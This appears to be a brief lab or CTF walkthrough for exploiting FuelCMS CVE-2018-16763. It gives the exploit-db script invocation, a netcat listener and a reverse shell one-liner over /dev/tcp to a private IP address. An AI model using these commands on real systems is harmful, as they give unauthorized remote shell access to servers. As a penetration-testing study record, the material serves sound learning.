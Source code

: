 # FuelCMS - CVE-2018-16763

## Requirements

 - FuelCMS version <= 1.4.1

## Exploitation

### Download the exploit 

https://www.exploit-db.com/exploits/50477

![](./imgs/exploit.png)

### Trigering the exploit

```
python exploit.py -u http://TARGET/ 
```
![](./imgs/exploit_trigger.png)

### Setting up a netcat listener

```
nc -lvnp 33334
```
![](./imgs/stable_shell.png)

### Get a stabilized shell

```
echo "sh -i >& /dev/tcp/10.18.65.3/33334 0>&1" > /tmp/shell.sh; bash /tmp/shell.sh
```
![](./imgs/shell_result.png)

## References
 - https://www.getfuelcms.com/
 - https://www.exploit-db.com/exploits/50477
